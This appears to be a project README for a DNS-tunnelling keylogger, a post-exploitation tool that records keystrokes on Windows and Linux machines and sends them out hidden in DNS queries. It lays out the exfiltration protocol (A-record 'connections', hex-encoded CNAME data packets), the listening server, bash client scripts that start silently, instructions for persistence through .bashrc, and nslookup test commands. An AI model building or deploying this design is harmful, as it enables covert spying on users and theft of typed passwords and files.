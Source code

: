 # DNS Keylogger
This post-exploitation keylogger will automatically report a Windows computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## A Record Request
A record requests indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## CNAME Record Request
CNAME record requests indicate actual data being sent to the server.
It is in the format of `[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with NXDOMAIN.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with REFUSED.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with FORMERR. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests.

# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data. 

To start the keylogger, run the command `./logger.sh && exit`. This will silently start the keylogger, and any inputs typed will be sent. `logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to the .bashrc and/or .bash_profile to start on a new interactive shell or on login.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A 1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=CNAME 1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.